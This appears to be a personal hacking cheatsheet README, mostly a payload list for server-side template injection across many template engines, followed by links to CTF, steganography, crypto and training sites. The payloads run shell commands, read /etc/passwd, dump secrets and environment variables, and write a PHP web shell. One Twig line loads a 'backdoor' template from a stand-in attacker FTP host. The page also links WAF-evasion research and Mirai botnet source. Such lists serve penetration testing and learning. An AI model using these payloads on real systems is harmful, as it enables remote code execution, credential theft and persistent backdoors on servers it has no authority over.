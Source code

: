 Intel (insert better title here)
================

[Cheatsheets](#Cheatsheets)
[Enumeration](#Enumeration)
[Privelege Escalation](#Privilege Escalation)
[Steganography](#Steganography)
[Cryptography](#Cryptography)
[Reverse Engineering](#Reverse Engineering)
[Wordlists](#Wordlists)
[Learn To](#Learn To)



# Cheatsheets

## Server Side Template Injection (SSTI)

### Polyglot:
```
${{<%[%'"}}%\
```

### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

# Enumeration

https://github.com/darkoperator/dnsrecon

# Privilege Escalation

## Windows

### Living off the Land
https://lolbas-project.github.io/

## Linux

### Living off the Land

https://gtfobins.github.io/



# Steganography

https://29a.ch/photo-forensics/#forensic-magnifier
https://futureboy.us/stegano/decinput.html
https://github.com/DominicBreuker/stego-toolkit
https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
https://stegonline.georgeom.net/upload
https://lukeslytalker.pythonanywhere.com/

# Cryptography

https://gchq.github.io/CyberChef/cyberchef.htm
https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
http://fbcs.bplaced.net/multi_encoder_decoder.html
https://quipqiup.com/
https://mothereff.in/bacon
http://www.spammimic.com/
https://crypto.interactive-maths.com/affine-cipher.html

# Reverse Engineering

https://onlinedisassembler.com/static/home/index.html

# Wordlists

https://wiki.skullsecurity.org/Passwords

# Learn To

## Hack
https://app.hackthebox.eu/dashboard
https://www.hackthissite.org/
https://www.hacksplaining.com/
https://www.hacking-lab.com/index.html
https://cryptopals.com/
https://ocw.cs.pub.ro/courses/cns
https://www.pentesteracademy.com/
https://tryhackme.com/
https://learn.hacktify.in/collections?category=courses&page=1

## Code
http://www.codecraftgame.org/
https://codingbat.com/

# Misc (yet to sort)


https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
https://github.com/jgamblin/Mirai-Source-Code

